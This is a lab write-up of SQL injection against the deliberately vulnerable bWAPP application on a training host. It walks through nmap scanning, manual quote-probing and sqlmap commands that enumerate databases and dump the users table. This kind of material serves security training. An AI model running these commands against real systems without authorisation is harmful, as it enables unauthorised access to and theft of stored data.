



# SQL Injection -lab

Objective: Perform SQL Injection attack on target web application.

## Target info

* Target hostname: demo.ine.local
* IP: 192.52.235.3
* Host OS: Linux 4.15 - 5.6 (Ubuntu 14.04.1)
* Web server: Apache 2.4.7, PHP 5.5.9
* DBMS: MySQL 5.5.47 (nmap) / >= 5.1 (sqlmap)
* Known credentials: bee:bug

Open ports:

* 80 - http
* 3306 - mysql

## 1. Scanning and fingerprinting

Check that target host is live:
    
    ping demo.ine.local

Run a TCP Connect port scan on target:

    nmap -p- 192.52.235.3 > nmap.txt

Found two open ports: 80 (http) and 3306 (mysql).

Run OS detection:

    nmap 192.52.235.3 -O --osscan-guess >> nmap.txt

Detected OS: Linux 4.15 - 5.6

Run MySQL version scan:

    nmap -p 3306 192.52.235.3 -sV >> nmap.txt

Detected version: MySQL 5.5.47. OS-version is also given as Ubuntu 14.04.1

## 2. SQL Injection (Get/Search)

### 2.1 Manual testing

The search function sends the following request, so the search parameter is 'title':

    http://demo.ine.local/sqli_1.php?title=Iron+Man&action=search

Performing a search for 'Iron Man', for example, returns a table with only one entry. Searching for a non-existing movie gives an expected message of 'No movies were found!'. 

Using ' as the search parameter displays an SQL-syntax error -message indicating that the title-parameter is vulnerable to injection:

## 2.2 Testing with sqlmap

Test the sqli_1.php for injection vulnerabilities with the following command:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0"

The test found three injection methods: error-based, time-based and union query:

The test also gives the following info about the system:

* Operating system: Linux Ubuntu
* Web application technology: Apache 2.4.7, PHP 5.5.9
* back-end DBMS: MySQL >= 5.1

Retrieve the databases with the --dbs option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" --dbs

Databases found: bWAPP, information_schema, mysql, performance_schema.

Retrieve the current database user with the --current-user option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --current-user

Database user: root@localhost

Retrieve the current database with the --current-db option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --current-db

Database name: bWAPP

Retrieve the current database tables with the --tables option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --tables

Tables in the bWAPP -database:

* blog
* heroes
* movies
* users
* visitors

Retrieve data of the 'users' table:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U -T "users" --dump

Two users are found: "bee" and "A.I.M":

## 2. SQL Injection (POST/Search)

The search function using POST-requests sends the following body when searching for 'iron man':

    title=iron+man&action=search

Test the search with the following command:

    sqlmap -u "http://demo.ine.local/sqli_6.php" --data="title=iron+man&action=search" --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -p title

Found three injection points: error-based, time-based blind and UNION query. 
